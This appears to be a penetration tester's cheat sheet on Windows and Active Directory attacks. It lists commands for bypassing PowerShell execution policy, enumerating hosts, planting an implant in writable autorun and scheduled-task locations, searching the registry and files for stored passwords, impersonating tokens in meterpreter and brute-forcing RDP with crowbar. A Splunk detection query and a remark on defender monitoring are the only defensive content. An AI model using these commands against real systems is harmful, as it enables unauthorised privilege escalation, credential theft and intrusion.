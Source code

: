 AD NOTES

Host enumeration
#### Bypass Powershell execution policy
$env:psexecutionpolicypreference="bypass“
#### Import the script (can be from remote source)
Import-Module .\HostEnum.ps1
### #Run host enumeration checks
Invoke-HostEnum -Local

#### Basic Windows Enum Commands
>systeminfo
>whoami /all
>ipconfig /all
>net user
>netstat –ano
>tasklist /v
>sc query
>netsh firewall show config

#### Basic Detector
index=* CommandLine=* User!=*NT \ AUTHORITY* | eval length=len(CommandLine)| table length, CommandLine, ComputerName, User | sort -length
> With this in mind, execute commands only when on a priviledged session
> Try downgrading to $powershell -version 2

privilege escalation lab https://github.com/sagishahar/lpeworkshop
Check if we can modify an autorun
>(get-acl -Path "C:\Program Files\AutorunProgram\program.exe").access | ft IdentityReference,FileSystemRights,AccessControlType,IsInherited,InheritanceFlags -auto

>copy implant.exe 'C:\Program Files\AutorunProgram'
ls 'C:\Program Files\AutorunProgram'

Scheduled tasks > schtasks /query
schtasks /query /tn TASK-NAME /fo List /v
check permisions
> (get-acl -Path "C:\Missing Scheduled Binary\").access | ft IdentityReference,FileSystemRights,AccessControlType,IsInherited,InheritanceFlags -auto
> copy implant.exe "C:\Missing Scheduled Binary\" & ls "C:\Missing Scheduled Binary\"

#Search for credentials in registry:
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
#Search for credentials in files:
findstr /si password *.txt
findstr /si password *.csv
findstr /si password *.xml
findstr /si password *.ini


#Lateral Mooovement
> whoami /priv

While in meterpreter
  If SeImpersonate privilege
  >use incognito
  >list_tokens -u
  >impersonate_token domain\\Administrator
      == domain\\user

### RDP BRUTEFORCE
> crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1

### Registry harvest credentials
> reg query HKLM /f password /t REG_SZ /s
#### or
> reg query HKCU /f password /t REG_SZ /s

Defenders moitoring command line execution do monitor for such. Not sure on how they
monitor masked command execution with syscall.

